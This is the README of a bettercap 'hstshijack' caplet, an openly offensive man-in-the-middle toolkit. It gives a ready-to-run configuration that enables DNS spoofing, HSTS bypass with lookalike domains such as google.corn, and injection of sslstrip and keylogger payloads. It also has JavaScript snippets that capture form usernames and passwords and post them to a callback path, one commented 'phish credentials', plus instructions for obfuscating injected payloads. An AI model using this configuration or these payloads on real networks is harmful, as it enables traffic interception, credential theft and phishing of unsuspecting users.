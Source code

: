 <p align="center">
  <img width="420px" src="https://raw.githubusercontent.com/buffermet/cdn/master/github.com/bettercap/caplets/hstshijack/logo.svg" />
</p>

### Caplet

```sh
# Documentation can be found at https://github.com/bettercap/caplets/tree/master/hstshijack

# Domains assigned to 'hstshijack.targets', 'hstshijack.blockscripts' and 'hstshijack.payloads'
# variables get precendence over those assigned to the 'hstshijack.ignore' variable.
set hstshijack.targets         *.google.com, google.com, gstatic.com, *.gstatic.com
set hstshijack.replacements    *.google.corn,google.corn,gstatic.corn,*.gstatic.corn
set hstshijack.ssl.domains     /usr/local/share/bettercap/caplets/hstshijack/domains.txt
set hstshijack.ssl.index       /usr/local/share/bettercap/caplets/hstshijack/index.json
set hstshijack.ssl.check       true
#set hstshijack.blockscripts    example.com,*.example.com
set hstshijack.obfuscate       true
set hstshijack.payloads        *:/usr/local/share/bettercap/caplets/hstshijack/payloads/hijack.js,*:/usr/local/share/bettercap/caplets/hstshijack/payloads/sslstrip.js,*:/usr/local/share/bettercap/caplets/hstshijack/payloads/keylogger.js
set hstshijack.whitelist       /usr/local/share/bettercap/caplets/hstshijack/whitelist.json
set hstshijack.ignore          captive.apple.com,connectivitycheck.gstatic.com,detectportal.firefox.com,www.msftconnecttest.com

net.recon on

set http.proxy.script  /usr/local/share/bettercap/caplets/hstshijack/hstshijack.js
http.proxy on

set dns.spoof.domains  *.google.corn,google.corn,gstatic.corn,*.gstatic.corn
set dns.spoof.all      true
dns.spoof on
```

### <a href="./payloads/hijack.js">**hijack.js**</a> payload

This module injects files with a JavaScript payload (<a href="./payloads/hijack.js">**hijack.js**</a>) which acts as a callback for bettercap, and takes care of hostname spoofing in attributes of injected documents, as well as fetch and XMLHttpRequest.

Injecting <a href="./payloads/hijack.js">**hijack.js**</a> is essential for hostname spoofing.

### Scalable domain indexing (SSL log)

<br>

<p align="center">
  <img src="https://github.com/user-attachments/assets/a419acb3-28b4-4927-a596-c96ab6c2552e" alt="Indexed domains that use HTTPS" />
</p>

When hosts respond with an HTTPS redirect, bettercap will save their hostname in lists that are sorted by domain prefixes, allowing the list to scale by reducing a considerable amount of overhead for the proxy module.

By default, this caplet will remap these lists of domains that were found in the file that you assigned to the `hstshijack.ssl.domains` variable on launch (to ensure that it is still in the right format). You can skip this by setting the `hstshijack.ssl.check` variable to `false`.

Bettercap will also send a HEAD request to unknown hosts that were discovered in the injected document and retrieved via a callback from the <a href="./payloads/hijack.js">**hijack.js**</a> payload. This is done to learn what hosts use HTTPS, ahead of time.

Hostnames that you target with the `hstshijack.targets` variable are automatically logged and indexed.

### Hostname spoofing

In the <a href="./hstshijack.cap">**caplet file**</a> you can assign comma separated domains to the `hstshijack.targets` variable. _(wildcard allowed)_

For every targeted hostname you must specify a replacement hostname, like this:

```sh
set hstshijack.targets       google.com, *.google.com
set hstshijack.replacements  google.corn,*.google.corn
```

You can try to make them as unnoticeable as you can, but your options are limited here in terms of evading HSTS.

### Block scripts

In the <a href="./hstshijack.cap">**caplet file**</a> you can block JavaScript from hosts by assigning them to the `hstshijack.blockscripts` variable. _(wildcard allowed)_ 

### Custom payloads

You can also inject your own scripts into files from your specified hosts by assigning them to the `hstshijack.payloads` variable.

Custom payloads are (optionally) obfuscated at launch, executed synchronously, and wrapped inside a function that is defined as a property of the current JavaScript context (globalThis). This is done to ensure that your payload is only executed once per application, even if injected multiple times. Individual payloads are not failsafe, so you must set your conditions/try and catch blocks yourself.

Example:

```sh
set hstshijack.payloads        *:/usr/local/share/bettercap/caplets/hstshijack/payloads/hijack.js,*:/usr/local/share/bettercap/caplets/hstshijack/payloads/sslstrip.js,*:/usr/local/share/bettercap/caplets/hstshijack/payloads/keylogger.js
```

You should always inject the <a href="./payloads/hijack.js">**hijack.js**</a> payload when spoofing hostnames.

### Obfuscation

You can write custom payloads that are automatically obfuscated by the module.

Basically, every word that was found beginning with `obf_` will be obfuscated.

Example: 

```js
function obf_function() {
  alert("Random variable: obf_whatever_follows")
}

obf_function()
```

Will be injected as:

```js
function jfIleNwmKoa() {
  alert("Random variable: AsjZnJWklwMNqshCaloE")
}

jfIleNwmKoa()
```

### Silent callbacks

You can have your payloads send callbacks to your machine that bettercap will print, but not proxy.

Example of a silent callback:

```js
form.onsubmit = function() {
  req = new XMLHttpRequest()
  req.open("POST", "http://" + location.host + "/obf_path_callback?username=" + username + "&password=" + password)
  req.send()
}
```

The following POST request will be sniffed by bettercap, but not proxied (the request will be dropped). 

Any instance of `obf_path_callback` will be replaced with the callback path (see example above).

### Whitelisting callbacks

You can automatically terminate an attack between specific clients and hosts by making the client's machine initiate a whitelisting callback.

Example of multiple whitelisting callbacks:

```js
// Whitelist multiple hosts to ensure the intended resources will load.

form.onsubmit = function() {
  // Whitelist current hostname and phish credentials
  req = new XMLHttpRequest()
  req.open("POST", "http://" + location.hostname + "/obf_path_whitelist?email=" + email + "&password=" + password)
  req.send()

  // Whitelist facebook
  req = new XMLHttpRequest()
  req.open("POST", "http://facedook.com/obf_path_whitelist")
  req.send()

  // Whitelist facebook CDN
  req = new XMLHttpRequest()
  req.open("POST", "http://static.xx.fdcdn.net/obf_path_whitelist")
  req.send()

  // Whitelist redirect to facebook
  req = new XMLHttpRequest()
  req.open("POST", "http://fd.com/obf_path_whitelist")
  req.send()
}
```

When a request is sent as above, bettercap will stop spoofing connections between the sender and the requested host.

If any resource from a spoofed host is requested that was previously whitelisted for that client, then that client will be redirected to the intended (unspoofed) host.
